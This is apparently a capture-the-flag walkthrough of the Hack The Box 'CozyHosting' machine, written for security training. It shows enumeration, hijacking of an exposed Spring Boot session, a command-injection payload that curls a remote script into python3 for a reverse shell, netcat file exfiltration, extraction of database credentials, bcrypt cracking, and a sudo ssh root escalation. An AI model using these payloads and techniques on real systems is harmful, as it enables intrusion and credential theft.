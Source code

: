 # CozyHosting
### OS: Linux
### Difficulty: Easy

## Enumeration:
I'll start with a port scan.
```bash
nmap -sC -sV -p- 10.129.159.47 -oN nmap.txt

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 43:56:bc:a7:f2:ec:46:dd:c1:0f:83:30:4c:2c:aa:a8 (ECDSA)
|_  256 6f:7a:6c:3f:a6:8d:e2:75:95:d4:7b:71:ac:4f:7e:42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I'll start by taking a look at the HTTP server. I'll first need to add "cozyhosting.htb" to my hosts file.

![landing_page](images/img1.png)

I'll run gobuster against the web server.
```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

![error_page](images/img2.png)

The last line of the error page suggests that Spring Boot is being used. I'll run gobuster again but with a spring boot specific word list.
```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt

/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 98]
```

Visiting http://cozyhosting.htb/actuator/sessions reveals the name and JSESSIONID cookie of another user.

```
kanderson 5ED43189577B041AFBAADB1CA9CB62A8
```

We can use this to login.

![admin](images/img3.png)

## Foothold:

Let's take a look at the form.

![execssh](images/img4.png)

We can see that an SSH connection is expected to be established. I'll open up Burp Suite and play with the parameters.

![usage](images/img5.png)

We can see that the error parameter has the output of a shell. So there might be a command injection vulnerability.

![err](images/img6.png)

![err2](images/img7.png)

After experimenting with the parameters, we conclude that an input validation function prevents special characters in the hostname and whitespace in the username. We can use ${IFS} instead.

I'll send a simple reverse shell using curl.

```payload
host=as&username=;curl${IFS}http://10.10.14.85/rev.py|python3;
```

On host:
```bash
rlwrap nc -lnvp 6666
```
And we got a shell.

## Lateral movement:

Let's take a look at the directory.
```bash
ls -la
-rw-r--r--  1 root root 60259688 Aug 11  2023 cloudhosting-0.0.1.jar
```

There might be valuable information in this file. I'll transfer it to my machine and analyze it.
```bash
# On host
nc -l 6667 > cloudhosting-0.0.1.jar

# On target
nc 10.10.14.85 6667 < cloudhosting-0.0.1.jar
```

I found credentials for the database in 'Resource/BOOT-INF/application.properites'.
```
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

We can connect to the database to obtain credentials.
```bash
cat /etc/passwd|grep sh
root:x:0:0:root:/root:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash


psql  --host='localhost' --port=5432 --username='postgres' -W

\list
cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres

\connect cozyhosting

\dt # list tables
 public | hosts | table | postgres
 public | users | table | postgres

select * from users;
   name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

We can now crack the password for admin.
```bash
hashid '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
Analyzing '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 

hashcat -m 3200 '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' /usr/share/wordlists/rockyou.txt

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
```

We have obtained the admin password, which may belong to the user Josh. I'll try to connect via SSH.
```bash
ssh josh@cozyhosting.htb
manchesterunited
```

It worked! We can now get the user flag.
```bash
cat user.txt
```

### We got the user flag!

## Privilege Escalation:

First, we need to check whether we can execute commands as root.
```bash
sudo -l

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

In this case we can leverage [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/).

```bash
sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x

whoami
root
```

We can get the root flag.
```bash
cat /root/root.txt
```

### We got the root flag!